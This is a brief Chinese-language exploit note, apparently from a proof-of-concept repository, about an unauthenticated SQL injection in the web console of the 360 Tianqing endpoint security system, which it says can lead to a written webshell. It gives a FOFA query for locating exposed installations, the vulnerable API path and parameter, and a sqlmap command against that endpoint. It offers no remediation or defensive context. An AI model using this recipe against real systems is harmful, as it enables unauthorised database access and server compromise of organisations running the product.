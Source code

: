 ## 0x00 漏洞背景

        360天擎是一套终端安全管理系统，有客户端和Web端，漏洞出现在Web端，可以未授权访问的API，该API存在SQL注入漏洞，可导致直接写入Webshell
        
        FOFA语句 app="360天擎终端安全管理系统"
        
        
 ![图片](https://user-images.githubusercontent.com/118274389/230260256-7fe8e827-2864-44f2-b50b-b5d5f20231df.png)

        
## 0x01 漏洞利用

        /api/dp/rptsvcsyncpoint?ccid=1
        
        
## 0x02 检测结果

        python sqlmap.py -u https://x.x.x.x:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
        
        
        


 ![图片](https://user-images.githubusercontent.com/118274389/229656369-c2b5d26e-88a7-449e-b0e2-1029cdaafbf5.png)


